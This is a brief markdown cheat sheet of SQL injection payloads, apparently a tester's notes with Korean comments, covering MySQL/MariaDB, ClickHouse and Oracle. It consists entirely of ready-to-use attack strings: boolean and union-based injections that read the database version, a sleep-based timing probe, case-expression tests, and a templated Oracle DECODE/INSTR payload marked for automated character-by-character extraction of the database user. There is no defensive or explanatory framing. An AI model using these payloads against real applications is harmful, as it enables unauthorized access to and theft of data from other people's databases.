 # SQLI PAYLOAD

## mysql mariadb
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  
{"or 1=1 -- ":"asdf"}//딕셔너리  
"1param":"asdf%') /*"  
"2param":" */ union select 0,0,0,@@version,0 --a"  
DESC, (select sleep(3)) -- -  



## clickhouse
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  


## oracle
정렬파라미터
->
DECODE(INSTR(CHR(65),CHR(65),1,1),1,TRUE값,FALSE값)
DECODE(INSTR(CHR(65),CHR(66),1,1),1,TRUE값,FALSE값)
->자동화 공격
DECODE(INSTR(USER,CHR({ascii_code}),{pos},1),{pos},TRUE값,FALSE값)
